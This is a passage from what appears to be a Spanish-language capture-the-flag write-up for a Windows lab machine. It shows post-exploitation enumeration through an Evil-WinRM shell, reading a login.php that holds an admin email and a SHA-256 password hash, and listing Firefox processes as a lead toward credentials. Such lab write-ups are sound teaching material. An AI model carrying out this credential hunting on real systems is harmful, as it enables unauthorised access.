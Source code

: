  - Comprobamos los privilegios que tenemos dentro del sistema pero no podemos aprovecharnos de ninguno:
```powershell
*Evil-WinRM* PS C:\Users\Chase\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

- Como hay un servidor web y sabemos que hay un archivo llamado `login.php`, podemos ir a la ruta `inetpub\wwwroot\login.php` y comprobar dicho fichero a ver si podemos ver credenciales validas:
```php
<?php
session_start();
if( isset($_REQUEST['login']) && !empty($_REQUEST['login_username']) && !empty($_REQUEST['login_password'])) {
        if( $_REQUEST['login_username'] === 'admin@support.htb' && hash( 'sha256', $_REQUEST['login_password']) === '91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040') {
                $_SESSION['admin'] = "valid";
                header('Location: issues.php');
        }
        else
                header('Location: errorpage.php');
}
else if( isset($_GET['guest']) ) {
        if( $_GET['guest'] === 'true' ) {
                $_SESSION['guest'] = "valid";
                header('Location: issues.php');
        }
}


?>
```

Como podemos ver hay un `hash` tipo `sha256` podemos probar crackearlo con `hashcat` pero no dará ningún resultado. Por lo que dentro del directorio personal del usuario `Chase` se encuentra unas notas que nos darán una serie de pistas:
```powershell
*Evil-WinRM* PS C:\Users\Chase\Desktop> type todo.txt
Stuff to-do:
1. Keep checking the issues list.
2. Fix the router config.

Done:
1. Restricted access for guest user.
```

Dice que sigamos chequeando la lista de problemas, por lo que nos da una pista y lo que hacemos ahora es mostrar la lista de procesos activos dentro del sistema de la siguiente forma:
```powershell
Get-Process
    355      25    16400      38908       0.14   3768   1 firefox
   1069      71   150852     228100       4.91   6480   1 firefox
    347      19    10140      38660       0.06   6592   1 firefox
    401      34    35588      95024       0.53   6752   1 firefox
    378      28    23368      60468       0.23   7040   1 firefox
```
